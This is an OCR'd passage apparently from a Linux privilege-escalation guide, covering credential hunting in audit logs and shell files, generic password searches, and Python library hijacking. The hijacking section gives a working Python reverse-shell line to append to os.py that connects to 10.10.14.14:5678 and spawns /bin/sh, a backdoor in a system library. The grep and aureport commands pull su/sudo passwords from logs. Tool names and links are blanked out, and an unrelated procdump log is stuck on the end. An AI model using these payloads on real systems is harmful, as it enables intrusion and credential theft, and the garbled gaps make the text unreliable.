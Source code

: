 Read the code of , it searches for several possible files that could contain passwords.
Another interesting tool that you can use to do so is:  which is an open source application used to retrieve lots of passwords stored on a local computer for Windows, Linux & Mac.

### Logs

If you can read logs, you may be able to find interesting/confidential information inside them. The more strange the log is, the more interesting it will be (probably).
Also, some "bad" configured (backdoored?) audit logs may allow you to record passwords inside audit logs as explained in this post: .

```
aureport --tty | grep -E "su |sudo " | sed -E "s,su|sudo,${C}[1;31m&${C}[0m,g"
grep -RE 'comm="su"|comm="sudo"' /var/log* 2>/dev/null
```

In order to read logs the group  will be really helpful.

### Shell files

```
~/.bash_profile # if it exists, read it once when you log in to the shell
~/.bash_login # if it exists, read it once if .bash_profile doesn't exist
~/.profile # if it exists, read once if the two above don't exist
/etc/profile # only read if none of the above exists
~/.bashrc # if it exists, read it every time you start a new shell
~/.bash_logout # if it exists, read when the login shell exits
~/.zlogin #zsh shell
~/.zshrc #zsh shell
```

### Generic Creds Search/Regex

You should also check for files containing the word "password" in its name or inside the content, and also check for IPs and emails inside logs, or hashes regexps.
I'm not going to list here how to do all of this but if you are interested you can check the last checks that  perform.

## Writable files

### Python library hijacking

If you know from where a python script is going to be executed and you can write inside that folder or you can modify python libraries, you can modify the OS library and backdoor it (if you can write where python script is going to be executed, copy and paste the os.py library).

To backdoor the library just add at the end of the os.py library the following line (change IP and PORT):

```
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.14",5678));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);
```


[20:20:58 - WARN]: Procdump not running with elevated credentials. If your uid does not match the uid of the target process procdump will not be able to capture memory dumps
[20:20:58 - INFO]: Timed:
[20:21:00 - INFO]: Core dump 0 generated: ./sleep_time_2021-11-03_20:20:58.1714